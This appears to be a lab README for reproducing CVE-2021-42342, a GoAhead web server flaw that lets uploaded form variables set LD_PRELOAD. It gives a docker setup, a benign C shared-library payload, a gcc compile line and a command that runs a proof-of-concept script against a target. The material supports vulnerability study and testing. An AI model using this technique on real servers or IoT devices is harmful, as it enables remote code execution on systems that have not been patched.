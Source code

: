 # GoAhead Web Server Environment Variables Injection and `LD_PRELOAD` Remote Code Execution (CVE-2021-42342)

[中文版本(Chinese version)](README.zh-cn.md)

An issue was discovered in GoAhead 4.x and 5.x before 5.1.5. In the file upload filter, user form variables can be passed to CGI scripts without being prefixed with the CGI prefix. This permits tunneling untrusted environment variables into vulnerable CGI scripts.

Attacker can use this feature to upload their shared object payload in the multipart form and hijack the `LD_PRELOAD` environment variable to execute arbitrary code.

This vulnerability is the patch bypass of the [CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562).

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## Vulnerable environment

Execute following commands to start a GoAhead 5.1.4:

```
docker compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

Then, we are using [this script](poc.py) to reproduce the vulnerability.

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

Hijack is successful:

![](1.png)
